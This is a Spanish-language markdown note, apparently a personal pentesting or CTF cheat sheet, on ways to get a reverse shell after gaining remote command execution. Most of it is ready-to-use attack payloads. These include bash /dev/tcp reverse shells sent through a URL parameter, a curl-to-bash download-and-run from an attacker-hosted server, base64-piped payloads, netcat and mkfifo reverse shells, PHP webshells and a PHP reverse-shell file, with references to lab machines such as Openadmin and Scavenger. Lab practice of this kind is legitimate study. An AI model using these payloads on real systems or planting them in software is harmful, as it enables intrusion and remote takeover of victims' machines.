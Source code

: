 ```yaml
---
title: Conseguir Reverse Shell
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajon Verde]
tags: [Linux, Reverse Shell]
---
```

## Maneras de lanzarme una reverse shell

En todos los casos se entiende que tengo ejecución remota de comandos(RCE) y tengo el netcat en escucha por un puerto:
```
> nc -nlvp 443
```
[monkey]:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Tienes varias formas de realizar una reverse shell en la página de [monkeypentester][monkey].

Caso 1 - Directo:  
Me pongo en escucha por el 443, entonces en el navegador(despues del parametro/argumento que te permita la ejecucio, por ejemplo:  
`?cmd=bash -c 'bash -i >& /dev/tcp/Mi_Ip/puerto 0>&1'`  
Si no te llega la bash prueba a url-encodear el &, que es por %26

Caso 2 - Index.html y bash:

Otra forma diferente a la anterior, porque el **bash -i** a veces puede dar problemas por url. Despúes del parámetro que sea:  
`which curl` ,si no esta en la máquina, intenta `which wget`  

Ahora si cuento con alguna de ellas me monto un servidor web con python:  
`python -m http.server 80`  
Y en la misma carpeta que comparto el servidor creo un index.html que se ejecutara cuando se conecte la víctima interpretandolo con el bash que indique en el comando. Ese index.html es asi:  
``` bash
#!/bin/bash
bash -i >& /dev/tcp/miip/puerto 0>&1
```
Y ahora desde el RCE ejecuto esta instrucción; `curl http://Mi_ip|bash`  
Un ejemplo en la máquina **Openadmin**.  

En máquina **Devzat** se pasa a base64 porque no dispone de curl. Se hace esto: 
```
> base64 -w 0 index.html
```
Y ya desde el RCE:  
`echo <cadenaenBase64>| base64 -d|bash`

Caso 3 - Con Netcat:

`nc -e /bin/bash <miip> 443`  
Si algun momento ves que no os entabla probar:  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc MIIP MIPUERTO >/tmp/f`  
Hay casos que nc no tiene la opción -e y tenéis que tirar de el nc antiguo.

Caso 4 - FakeShell:

Contexto: En máquina **Scavenger** tenemos rce via web desde un php de la maq objetivo. Probamos a lanzarnos una reverse pero no hay manera, tanto con el nc ,con bash -c, con wget, curl..pero nada.  
Asi que s4vi se construye una **fakeshell** con bash.

Caso 5 - Mediante WebShells:

Estructuras tipo webshells mediante subida archivo php:

``` php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
``` php
<?php system($_GET['cmd']); ?>
```
Recuerda que llamas directamente al archivo php que esta alojado dentro de la máquina víctima, seguido del ?cmd=COMANDO  
cmd es el parámetro que le solemos poner pero puede ser cualquier otro.

Recuerda el comando **phpinfo()** para saber que funciones hay deshabilitadas y y cuales no.

Si quisieras lanzar reverse directamente desde el php subido ya no sería webshell, y es así:  
``` php
<?php
   system("bash -c ' bash -i >& /dev/tcp/<miIp>/443 0>&1'");
?>
```
Con llamar al archivo bastaría.











